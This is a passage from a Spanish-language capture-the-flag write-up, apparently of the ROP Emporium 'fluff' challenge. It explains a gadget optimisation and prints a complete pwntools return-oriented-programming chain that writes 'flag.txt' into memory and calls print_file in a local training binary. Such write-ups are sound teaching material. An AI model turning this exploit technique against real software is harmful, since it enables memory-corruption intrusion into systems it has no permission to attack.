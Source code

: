 Este script funcionará en según qué máquinas, pero en otras dará error en la alineación del stack. Además, no podemos añadir ninguna instrucción porque nos volvemos a pasar de longitud.

Sin embargo, si debugeamos un poco nos daremos cuenta de que después de stos `BYTE PTR es:[rdi],al`, `rdi = rdi + 1`, que es precisamente el valor que necesitamos, por lo que no necesitamos un segundo `pop rdi`. Así el segundo script quedaría:

```python
from pwn import *


offset = b'A'*40
subtract = 0x3ef2

xlatb_ret = p64(0x400628)
poprdx_rcx_addrcx_bextr_ret = p64(0x40062a)
stosrdi_ret = p64(0x400639)
poprdi_ret = p64(0x4006a3)
moveax0_poprbp_ret = p64(0x400610)
ret = p64(0x400295)

addr_flag = ['0x4003c4', '0x4003c5' , '0x4003d6', '0x4003cf', '0x40024e', '0x400192', '0x400246', '0x400192']
addr_str = 0x601028
print_file = p64(0x400510)

payload = offset 

flag_str = b"flag.txt"

for i in range(len(addr_flag)):
    if(i == 0):
        sub_rax = 0xb
    if(i != 0):
        sub_rax = flag_str[i - 1]
    payload += poprdx_rcx_addrcx_bextr_ret
    payload += p64(0x4000)                                              #take 8 bytes
    payload += p64(int(addr_flag[i], 16) - subtract - sub_rax)          # take correct value rcx: the address contain char in "flag.txt"
    payload += xlatb_ret                                                #take the one byte at the address which stores in rbx to al 
    if(i == 0):
        payload += poprdi_ret
        payload += p64(addr_str + i)
    payload += stosrdi_ret
    
payload += poprdi_ret
payload += p64(addr_str)
payload += ret
payload += print_file

with open("debug", "wb") as binary_file:
    binary_file.write(payload)
    
r = process('./fluff')
r.recvuntil(b'> ')
r.sendline(payload)
r.interactive()
```

Y después de ésta optimización, ya deberíamos obtener nuestra flag. Este es el reto que menos me ha gustado, debido al salto de complejidad y a la dificultad de uso de los gadgets. Sin embargo, reconozco que es un reto que nos permite afianzar nuestros conceptos.

¡Nos vemos en el siguiente post!